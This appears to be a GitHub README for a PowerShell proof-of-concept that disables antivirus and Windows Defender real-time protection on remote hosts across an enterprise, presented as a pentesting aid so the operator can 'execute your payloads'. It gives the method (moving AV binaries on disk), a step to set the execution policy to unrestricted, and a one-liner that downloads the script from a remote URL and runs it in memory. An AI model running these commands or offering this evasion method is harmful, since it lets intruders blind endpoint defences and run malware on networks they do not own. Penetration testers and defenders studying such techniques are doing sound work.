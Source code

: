 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

My projects are my own and do not reflect my employer

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  There's also an "Enable" switch to set everything back when finished.  I recently added support to remotely and temporarily disable "Real Time Protection" for Windows Defender as well if it's detected on the remote host.

# Instructions
The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

<p align="center"><img align="center" width="600" alt="Invoke-NeutralizeAV Screenshot" src="https://i.imgur.com/IH7epMX.png"></p>

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (arguments instead of prompts, host lists, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
